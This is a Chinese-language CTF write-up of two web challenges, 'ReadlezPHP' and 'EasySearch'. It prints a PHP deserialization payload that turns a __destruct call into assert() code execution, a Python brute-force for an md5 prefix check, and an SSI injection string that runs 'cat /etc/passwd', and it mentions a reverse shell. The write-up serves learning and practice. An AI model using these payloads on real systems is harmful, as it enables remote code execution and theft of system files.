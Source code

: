 ```yaml
---
title: ReadlezPHP&EasySearch
date: 2021-04-20 17:12:43
categories: ['CTF']
tags: ['反序列化','SSI注入']
---
```


# ReadlezPHP



源码找到`time.php?source`

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20210420175641.png)

```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

@$ppp = unserialize($_GET["data"]);
```

分析一波：最后一行一个反序列化，所以很明显是反序列化的题目，在`HelloPhp`中有一个`__destruct`方法，会在创建的对象销毁时执行，注意里面有一个echo输出，最重要的是后面的函数调用 ，好像是在PHP7某个版本之后只是使用形如`$a($b)`格式进行函数调用，假如变量`a`为字符串`var_dump`，`b`是任意字符串，就相当于调用var_dump函数且参数为b。

所以构造反序列化，调用assert函数执行phpinfo。如果向**assert()** 函数传递字符串，它将会被 **assert()** 当做 PHP 代码来执行)：

```
<?php
class HelloPhp
{
    public $a='phpinfo()';
    public $b='assert';
}

$s=new HelloPhp();
echo serialize($s);

```

POST请求

```
time.php?data=O:8:"HelloPhp":2:{s:1:"a";s:9:"phpinfo()";s:1:"b";s:6:"assert";}
```

页面查找flag，在environment中找到flag

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20210420175822.png)

# EasySearch

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20210420171541.png)

进入页面以后试了试sql注入发现没用。第一步是看了wp找到的：使用扫描器扫描到`index.php.swp`文件：

```php
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
	***
    }
	***
?>
```

登陆功能又一个验证，需要传入的`passwd`参数使用**md5**加密以后是以**6d0bc1**开头的。简单写个脚本跑一下就有了：

```python
# codeing=utf-8
import hashlib

cnt=1;
while True:
    md=hashlib.md5(str(cnt).encode("utf8")).hexdigest()
    if md.startswith("6d0bc1"):
        print(cnt)
    cnt+=1
#2020666
#2305004
```

分析源码登陆以后会创建一个欢迎页，使用POST请求，抓包可以在响应头里找到创建文件的位置和名称。

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20210417102904.png)

看了看文件后缀是一格没有见过的：`shtml`，然后学到到了shtml有一种漏洞：[SSI注入漏洞](https://blog.csdn.net/qq_40657585/article/details/84260844)

> SSI 注入全称Server-Side Includes Injection，即服务端包含注入。SSI 是类似于 CGI，用于动态页面的指令。SSI 注入允许远程在 Web 应用中注入脚本来执行代码。

简单的命令执行

```code
"-->'-->`--><<!--#exec cmd="cat /etc/passwd"-->
```

我使用了反弹shell，自行修改一下命令即可。在/var/www/html目录下可以找到一个名为`flag_990c66bf85a09c664f0b6741840499b2`的文件，获得flag